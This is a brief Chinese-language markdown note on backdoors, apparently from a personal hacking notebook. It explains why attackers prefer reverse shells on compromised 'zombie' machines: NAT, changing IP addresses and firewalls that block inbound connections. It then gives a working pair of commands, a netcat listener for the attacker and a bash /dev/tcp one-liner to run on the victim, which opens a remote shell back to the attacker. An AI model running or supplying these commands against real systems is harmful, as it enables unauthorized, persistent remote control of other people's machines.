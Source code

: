 ## 后门
- 参考  
https://xz.aliyun.com/t/2549  
### 反弹shell
1. 意义
    1. 局域网内肉鸡无法被连接。
    2. 肉鸡ip会动态改变，不能持续控制。
    3. 防火墙等限制，肉鸡只能发送请求，不能接收请求。
    4. 肉鸡网络环境未知，主动连接，省事。
2. 实现
```bash
# 我方服务器执行
nc -lvp 2333
# 肉鸡上执行
IP=127.0.0.1
bash -i >& /dev/tcp/${IP}/2333 0>&1
```